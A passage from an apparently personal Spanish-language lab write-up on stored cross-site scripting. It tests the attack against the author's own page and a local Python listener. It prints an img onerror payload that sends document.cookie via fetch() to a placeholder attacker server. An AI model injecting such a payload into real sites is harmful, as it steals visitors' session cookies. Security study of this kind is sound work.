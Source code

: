 >Cada inyección que hacemos es almacenada e hipotéticamente mostrada a cualquier otro usuario que visite la web, un buen ejemplo seria:

```javascript
<img src=x onerror="fetch('Servidor_del_atacante/coockie=' + document.coockie)">
```
_De esta manera igual que antes intentamos cargar un recurso de imagen inexistente, al no ser valido, la etiqueta "onerror" ejecutara la función de JavaScript fetch() que hará un petición http a nuestra ip atacante, concatenando la cookie del usuario victima_

>Para testear si funciona, nos montamos un un pequeño servidor http con Python:

![\1](/Attachments/Pasted%20image%2020250607174947.png)

>Insertamos el payload:

![\1](/Attachments/Pasted%20image%2020250607174247.png)

>El navegador solamente muestra un icono de imagen rota, ya que no existe el recurso de donde se intento obtener la imagen. Pero, si nos vamos a la terminal donde levantamos el servidor http:

![\1](/Attachments/Pasted%20image%2020250607175332.png)

>Vemos que recibimos una petición. Claro, la petición arroja un error porque la web no maneja cookies y somos nosotros mismos los que la hacemos. Pero, en teoría, si hubiera mas usuarios, cada vez que alguno ingrese al panel, seria victima de un robo de cookie (cookie hijacking) sin darse cuenta.
>En el código fuente de la pagina tenemos varias pistas sobre lo que genera la vulnerabilidad:
